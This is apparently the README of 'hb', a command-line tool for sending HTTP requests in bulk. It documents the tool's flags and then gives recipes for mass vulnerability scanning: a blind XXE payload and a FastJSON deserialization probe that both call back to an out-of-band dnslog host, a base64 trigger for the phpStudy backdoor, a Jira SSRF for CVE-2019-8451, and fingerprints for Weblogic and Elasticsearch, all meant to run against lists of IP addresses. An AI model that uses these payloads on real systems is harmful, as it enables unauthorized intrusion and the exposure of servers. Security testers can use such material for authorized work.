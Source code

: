 # hb
> Fast http batch request tool 

## Example 

### Load File Target
```
./hb -f ips.txt -p 80
```

### Add HTTP Header
```bash
-H "Host: bypasscdn"
```

### Show ProgressBar
```bash
-pg
```

### Follow redirect (30x)
```bash
-redirect
```

### Filter Response Body
```bash
-grep "admin"
```

### Filter Response Header (X-Powered-By ContentType Title)
```bash
-filter "nginx"
```

### Filter Response Status Code
```bash
-code 2 # 2xx
```

### Show Resposne Body 
```bash
-response
```

### Shuffle Request
```bash
-random
```

### Send Post Request
```bash
-body "a=1&b=2&c=2"

# post body from file
-bodyfile ./exploit
```

### Send PUT Request
```bash
-method PUT
```

### Show Request Error
```
-debug 
```

---

### Elasticsearch
```bash
-p 9200 -path "/_cat" -grep "/_cat/allocation"
```

### PHPINF0
```bash
-path /phpinfo.php -code 2 -grep 'PHP Version' -regexp 'PHP Version(.*?)<'
```

### XXE Blind
```bash
-body '<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY remote SYSTEM "http://{{hostname}}.dnslog/">]><x>&remote;</x>' -replace
```

### FastJSON Blind
```bash
-H "Content-Type: application/json" -body '{"@type": "java.net.InetAddress", "val":"{{hostname}}.dnslog"}' -replace -redirect
```

### Weblogic fingerprint
```bash
-p 7001 -H "Authorization: Basic" -code 401
```

### phpStudy Backdoor
```bash
-H "Accept-Charset: cGhwaW5mbygpOwo=" -H "Accept-Encoding: gzip,deflate" -grep 'PHP Version' -regexp '<tr><td class="e">disable_functions</td><td class="v">(.*?)</td>' -redirect
```

### CVE-2019-8451 Jira SSRF
```bash
-path "/plugins/servlet/gadgets/makeRequest?url={{scheme}}://{{host}}@baidu.com/" -H "X-Atlassian-Token: no-check" -replace -grep "www.baidu.com" -regexp '<meta name="ajs-version-number" content="(.*?)">' -redirect
```


